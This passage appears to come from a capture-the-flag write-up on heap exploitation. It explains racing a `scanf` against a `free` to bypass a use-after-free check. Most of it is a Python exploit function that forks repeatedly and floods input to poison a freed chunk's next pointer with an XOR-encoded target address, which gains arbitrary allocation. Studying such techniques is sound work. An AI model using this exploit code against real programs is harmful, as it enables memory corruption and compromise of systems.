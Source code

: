 So again, we need to make use of race condition to bypass this. 

But this time we would race `scanf` operation against to `free` operation, so the flow we want to achieve is below:
```
free 0 --> scanf 0 <content> --> stored[0] = 0
```
We want `scanf` operation to be fit between `free` and the modification of `stored[0]`

The following would be able to achieve this:
```py
def controlled_allocations(r1, r2, addr, heap_base_addr, debug, p, s):
	global idx
	r1.clean()
	r2.clean()
	
	
	addr_packed = p64(addr ^ heap_base_addr)
	xor_result = addr ^ heap_base_addr
	print(f"addr: {hex(addr)}")
	print(f"heap_base: {hex(heap_base_addr)}")  
	print(f"XOR result: {hex(xor_result)}")
	
	
	r1.sendline(f"malloc 0".encode()) # chunk B
	r1.sendline(f"malloc {idx}".encode()) # chunk B
	r1.sendline(f"free {idx}".encode()) # free B
	
	while True:
		#print("Running Arbitrary Read on Address: ", hex(addr))
		if os.fork() == 0:
			r1.sendline(f"free 0".encode()) # free A
			os.kill(os.getpid(), 9)
		else:
			r2.send((f"scanf 0 ".encode() + addr_packed + b"\n") * 2000)
			# trying to fit scanf i <addr> between "free A (i)" and "stored[i] == 0"
			# overwriting freed A's next pointer to be the target address
			os.wait()
		
		time.sleep(0.1)
		
		r1.sendline(f"malloc 0".encode()) # this malloc gets A
		r1.sendline(f"printf 0".encode())
		r1.readuntil(b"MESSAGE: ")
		stored = r1.readline()[:-1] #

		
		if stored == addr_packed.split(b'\x00')[0]: # checks if A's stored address (next pointer) is exactly our injected address
			break

	r1.sendline(f"malloc {idx}".encode()) # gets B (returned at injected address's location
	#if debug:
	#	gdb.attach(p, s)
	#	print(f"{idx}")
	#	r1.interactive()
	r1.sendline(f"free 0".encode()) # free the chunk so we can reuse it later, so that the base address of 0 never changes
	r1.clean()
	idx += 1
```
